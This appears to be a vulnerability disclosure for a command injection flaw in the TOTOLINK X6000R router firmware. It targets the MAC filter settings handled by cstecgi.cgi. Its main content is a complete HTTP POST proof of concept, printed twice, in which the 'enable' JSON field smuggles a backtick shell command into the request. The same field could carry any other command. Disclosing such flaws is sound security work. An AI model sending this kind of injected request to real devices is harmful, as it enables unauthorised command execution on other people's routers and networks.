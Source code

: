 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/macf.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/f9ccab3a-c2ce-4538-9cda-8239e1243429)


Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 72
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/macf.html?token=BB19D84941E95CCC
Priority: u=1

{"mode":"1","addEffect":"0","enable":"`ls >/web/poc_macf.txt`","topicurl":"setMacFilterRules"}
```
![image](https://github.com/user-attachments/assets/682bf61b-55b1-47fd-aab2-b73f4b15ebac)

![image](https://github.com/user-attachments/assets/b4c8f847-8dd0-4b1b-b562-6b88ed81dd86)



# PoC
Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 72
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/macf.html?token=BB19D84941E95CCC
Priority: u=1

{"mode":"1","addEffect":"0","enable":"`ls >/web/poc_macf.txt`","topicurl":"setMacFilterRules"}
```
![image](https://github.com/user-attachments/assets/682bf61b-55b1-47fd-aab2-b73f4b15ebac)

![image](https://github.com/user-attachments/assets/b4c8f847-8dd0-4b1b-b562-6b88ed81dd86)
